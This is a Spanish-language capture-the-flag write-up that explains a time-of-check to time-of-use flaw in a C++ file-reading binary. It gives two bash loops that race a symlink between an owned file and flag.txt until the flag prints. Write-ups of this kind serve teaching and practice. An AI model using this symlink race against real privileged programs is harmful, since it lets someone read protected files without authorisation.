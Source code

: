 En este ejercicio nos dan las credenciales a una shell con un binario.

El binario tiene el siguiente código:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Podemos ver que el programa imprime la un archivo (en este caso queremos que sea flag) por pantalla si llegamos hasta la parte final del código. Lo que pasa es que hay una condición que comprueba si somos el dueño del archivo y si no cierra el programa. Para poder solucionar este ejercicio tenemos que bypassear esa condición. Para eso podemos hacer lo siguiente:

Primero, cuando el flujo del programa esté comprobando quien es el dueño mandarle un archivo en donde seamos dueños. Segundo cuando acabe de comprobar, antes de que imprima el archivo que le pasemos, cambiar a flag.txt. Podemos hacer esto creando 2 scripts que estén en un bucle infinito y usando enlaces simbólicos de la siguiente forma:

```bash
# Script 1

while true; do
    ln -sf ./hola.txt enlace
    ln -sf ./flag.txt enlace
done
```

Este intercambia todo el rato el enlace intercambiándolo entre nuestro archivo y el real.

> Hay que crear de antemano el archivo hola.txt

```bash
# Script 2

while true; do
    ./txtreader enlace
done
```

Este ejecuta todo el rato el binario pasándole el enlace que va cambiando.

Eventualmente en alguna ejecución cuadrará en el momento justo el intercambio, consiguiendo así la flag:

```c
./ejecutar_programa.sh 
. . .
Error: you don't own this file
Error: you don't own this file
picoCTF{SECRET}
Error: you don't own this file
Error: you don't own this file
. . .
```

Gracias por leer!

